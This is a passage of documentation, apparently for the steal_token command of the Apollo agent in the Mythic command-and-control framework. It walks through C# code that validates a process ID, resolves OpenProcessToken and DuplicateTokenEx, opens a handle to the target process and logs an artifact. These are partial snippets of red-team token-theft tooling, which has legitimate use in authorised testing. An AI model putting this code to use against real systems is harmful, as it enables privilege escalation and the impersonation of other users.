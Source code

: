- Validates PID parameter is provided
- Supports JSON format with "pid" or "process_id" keys
- Supports raw integer PID format
- Validates PID is valid integer value

#### 2. API Function Resolution
```csharp
public steal_token(IAgent agent, MythicTask data) : base(agent, data)
{
    _pOpenProcessToken = _agent.GetApi().GetLibraryFunction<OpenProcessToken>(Library.ADVAPI32, "OpenProcessToken");
    _pDuplicateTokenEx = _agent.GetApi().GetLibraryFunction<DuplicateTokenEx>(Library.ADVAPI32, "DuplicateTokenEx");
    _pCloseHandle = _agent.GetApi().GetLibraryFunction<CloseHandle>(Library.KERNEL32, "CloseHandle");
}
```
- Resolves `OpenProcessToken` from advapi32.dll
- Resolves `DuplicateTokenEx` from advapi32.dll  
- Resolves `CloseHandle` from kernel32.dll
- Uses Apollo's dynamic API resolution framework

#### 3. Process Handle Acquisition
```csharp
try
{
    procHandle = System.Diagnostics.Process.GetProcessById((int) Convert.ToInt32(_data.Parameters)).Handle;
}
catch (Exception ex)
{
    errorMessage = $"Failed to acquire process handle to {_data.Parameters}: {ex.Message}";
}
```
- Uses `Process.GetProcessById()` to get process handle
- Converts string parameter to integer PID
- Handles process not found or access denied exceptions
- Stores error message for failed handle acquisition

#### 4. Process Open Artifact Generation
```csharp
if (procHandle != IntPtr.Zero)
{
    _agent.GetTaskManager().AddTaskResponseToQueue(
        CreateTaskResponse("", false, "", new IMythicMessage[]
        {
            Artifact.ProcessOpen(int.Parse(_data.Parameters))
        }));
}
```
- Generates process open artifact when handle acquired successfully
- Uses target PID for artifact logging
- Provides intermediate response before token operations
